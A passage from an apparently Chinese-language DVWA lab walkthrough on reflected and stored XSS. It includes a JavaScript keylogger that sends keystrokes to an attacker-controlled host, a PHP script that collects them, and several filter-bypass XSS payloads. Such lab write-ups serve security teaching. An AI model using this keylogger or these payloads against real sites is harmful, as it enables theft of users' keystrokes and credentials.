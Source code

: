 ```javascript
	evt = evt || window.event;
	key = String.fromCharCode(evt.charCode);
	if(key){
		var http = new XMLHttpRequest();
		var param = encodeURI(key);
		http.open("POST","http://192.168.2.161/keylogger.php",true);
		http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
		http.send("key="+param);
	}
}

```
　　keylogger.php
```php
<?php
$key = $_POST['key'];
$logfile="keylog.txt";
$fp = fopen($logfile,"a");
fwrite($fp,$key);
fclose($fp);
?>

```
　　keylog.txt是用来存储击键内容，然后开启kali的apach服务service apache2 start，先试试访问key.js能成功不
　　![JwP711.png](https://s1.ax1x.com/2020/04/23/JwP711.png)
　　成功访问后，输入框提交<<span>script src="http://攻击者ip/key.js"></script</span>>
　　![JwF1xI.png](https://s1.ax1x.com/2020/04/23/JwF1xI.png)
　　除了输出一段hello外似乎无任何变化，但是只要你在这个页面上击键比如，随便输入qwer，在查看keylog内容后发现已经被记录，还是那句话这只是js功能的冰山一角。
　　![JwkpOP.png](https://s1.ax1x.com/2020/04/23/JwkpOP.png)
　　源码也是没啥过滤。补充一下这是反射性xss，刚才演示中可以看到要自己去点击提交后才能触发这些恶意行为，所以反射性xss一般都配合社会工程学，诱导对方去点击存在xss的网页链接，并且如果是要登陆的网页，对方还需要先登陆才行，和上面的csrf过程很像。一旦对方关闭了此网页后，攻击代码立刻失效。
　　![Jwkmyq.png](https://s1.ax1x.com/2020/04/23/Jwkmyq.png)
　　medium级别，先试试大写绕过，poc：<<span>Script>alert('xss')</script</span>>，成功弹窗。双写绕过，poc：<scr<<span>script>ipt>alert('xss')</script</span>>，其他html标签只要能加载js就行，poc：<img src="#" onerror=alert("xss")><<span>/img</span>>。还有非常多的姿势
　　源码：只是将<<span>script</span>>过滤掉
　　![JDQIr8.png](https://s1.ax1x.com/2020/04/24/JDQIr8.png)
　　high级别，下无论你输入什么都会原封不动的返回出来。<<span>script></script</span>>它会吧它处理成正常的文本，而不是html标签语法。
　　[![JD3rrV.png](https://s1.ax1x.com/2020/04/24/JD3rrV.png)](https://imgchr.com/i/JD3rrV)
　　源码
　　![JD1aX6.png](https://s1.ax1x.com/2020/04/24/JD1aX6.png)
　　htmlspecialchars函数把预定义的字符转换为 HTML 实体。
　　& （和号）成为 &
　　" （双引号）成为 "
　　' （单引号）成为 '
　　< （小于）成为 <
　　> （大于）成为 >
　　在这里不存在xss的情况，仅仅在这里而已，看插入代码的具体位置，这里输入的内容是一对括号之内的。
　　![JD8CdS.png](https://s1.ax1x.com/2020/04/24/JD8CdS.png)
　　而这个函数不会过滤'单引号，如果代码插入的位置是在如<<span>a href='你提交的内容'></a</span>>，那么构造poc为' onlick='alert(xss)，代入进语句就是<<span>a href='' onlick='alert(xss)'></a</span>>，这样也能成功执行xss，所以不能一概而论，要看具体的情况而定。
### XSS stored
　　存储型xss，这个意思是将xss注入进服务器中，反射性xss还要诱导对方来点击。而这个存储型xss你只需要睡一觉，等明天看有多少鱼儿上钩就完事。最经常见的例子就是留言板，你提交留言后，每个人都可以看见这条留言。所以你注入恶意js代码后，每个人只要点击查看留言那么它就中招了。
　　先正常提交一些数据。
　　![JDaoUP.png](https://s1.ax1x.com/2020/04/24/JDaoUP.png)
　　测试发现在Name，和message框输入到一定长度的时候就无法输入了。
　　![JDUGSe.png](https://s1.ax1x.com/2020/04/24/JDUGSe.png)
　　这个时候f12定位到输入框位置，看见一个maxlength="50"，这个就是限制输入的长度，删除掉即可解除长度限制。